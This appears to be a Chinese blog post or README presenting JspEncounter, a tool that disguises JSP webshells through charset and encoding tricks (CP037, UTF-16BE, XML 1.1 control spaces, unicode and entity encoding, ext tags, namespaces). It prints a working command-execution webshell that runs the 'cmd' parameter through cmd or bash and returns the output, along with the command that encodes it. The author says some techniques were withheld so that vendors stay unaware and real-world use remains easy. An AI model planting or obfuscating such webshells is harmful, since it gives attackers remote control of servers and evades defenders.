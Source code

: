 # JSP下的白魔法：JspEncounter

@许纬地 @turn1tup

## 前言

​		这几天看到的以前整活的一些有趣的JSP编码手法被补天的分享会提及到，想到有大佬与前些年的笔者一样，发现了这个手法，然后也一样不吝啬分享出来，不免与有荣焉。

​		竟然如此，笔者索性抽出咸鱼时间编写了一个小工具，帮助广大同学们学习该手法，而对应的原理实在枯燥乏味，就算笔者了然，但这最好还是给有心之人可自行查看吧，本文爽就完事了。

​		接下来直接阐述工具相应的矩阵手法及使用效果，而工具使用的注意项及等信息则请在github查看 ：

​		https://github.com/turn1tup/JspEncounter

## 矩阵手法

被工具转换前的原始source.jsp文件内容为：

```jsp
<%@page import="java.util.*,java.io.*" contentType="text/html" %>
<%! class Test{} %>
<%

    if (request.getParameter ("cmd") != null) {
        boolean isWin = System.getProperty("os.name").toUpperCase().contains("WIN");
        String[] cmd = {isWin?"cmd":"/bin/bash",isWin?"/c":"-c",request.getParameter("cmd")};
        InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
        OutputStream outputStream = response.getOutputStream();
        int a;
        outputStream.write(String.valueOf(System.currentTimeMillis()).getBytes());
        while((a=inputStream.read())!=-1){
            outputStream.write(a);
        }
    }

%>
```

工具命令为：

```
java  "-Dfile.encoding=utf-8" -jar JspEncounter.jar -m jsp -c matrix.xlsx -s source.jsp -o result.jsp
```



### magic charset

我们打开 `matrix.xlsx`进行配置，这里配置输出单种字符集文件：

![all_cp037](JSP下的白魔法/magic_charset.png)

执行命令后，输出的编码后的文件:

![magic_charset_demo](JSP下的白魔法/magic_charset_demo.png)

### declare charset

![declare_charset](JSP下的白魔法/declare_charset.png)

demo（放前后都可）:

![declare_charset_demo](JSP下的白魔法/declare_charset_demo.png)



### double chraset

双重字符集，这里以前文UTF-16BE 后文CP037为例：

![double_charset](JSP下的白魔法/double_charset.png)



![double_charset_demo](JSP下的白魔法/double_charset_demo.png)

### controller space

xml 1.1版本下，将标签内的左右括号进行对应的字符替换，该模式目前支持的字符集为utf-8/iso-8859-1/utf-16：

![controller_space](JSP下的白魔法/controller_space.png)

UTF-8字符集情况下：

![controller_space_demo](JSP下的白魔法/controller_space_demo.png)

ISO-8859-1情况下的特殊空白字符：

![controller_space_demo](JSP下的白魔法/controller_space_demo2.png)

### unicode & entity

这里使用双重编码对标签内的代码进行编码，即使用 unicode + html entity：

![entity](JSP下的白魔法/entity.png)



![eneity_demo](JSP下的白魔法/eneity_demo.png)



### ext tags

将代码拼接到 setProperty/useBean标签的属性中 ，该手法参考补天会议：

![exttag](JSP下的白魔法/exttag.png)

![exttag_demo](JSP下的白魔法/exttag_demo.png)

### namespace

![namespace](JSP下的白魔法/namespace.png)



![namespace](JSP下的白魔法/namespace_demo.png)

## 结语

​		通过本工具我们可以便捷地了解JSP中的这些编码手法，各手法的组合需要他们的逻辑不冲突，而某些手法组合的代码实现比较麻烦，笔者就暂先没有整，大家可自行探索。当然，笔者也稍微藏了一手，毕竟如果厂商都明白了，那我们实战起来也就不那么痛快了，但如果你能真正弄懂这个矩阵中的手法，相信也能发现其他手法。而相对整个webshell的混淆知识的图谱来说，本文也只是一角。

## Reference

https://www.anquanke.com/post/id/210630

https://www.anquanke.com/post/id/209826

`extTag setProperty/useBean拼接代码手法` 参考补天2022 webshell黑魔法



